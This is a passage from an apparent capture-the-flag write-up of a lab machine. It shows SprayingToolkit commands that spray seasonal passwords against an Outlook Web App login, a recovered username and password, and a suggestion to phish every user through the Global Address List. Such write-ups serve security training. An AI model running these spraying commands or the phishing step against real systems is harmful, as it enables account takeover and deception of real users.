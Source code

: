 This list of usernames can now be used with a **Password Spraying attack** on the **OWA** platform.

## Attacking Outlook Web App

I will use the [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit), to use a few common passwords against all users.
```
python3 atomizer.py owa 10.10.10.210 Spring2020 users_spray.list
python3 atomizer.py owa 10.10.10.210 Summer2020 users_spray.list
python3 atomizer.py owa 10.10.10.210 Autumn2020 users_spray.list
python3 atomizer.py owa 10.10.10.210 Winter2020 users_spray.list
```

After using all seasons as the password with the release year of the box, there is one successful login for the account name _s.svensson_ with the password of _Summer2020_.

There are no emails in the mailbox, but with access to the **Global Address List** it is possible to send Phishing mails to all existing users:

![Send mail to GAL](reel2_web-3.png)

![Send mail to GAL](reel2_web-4.png)
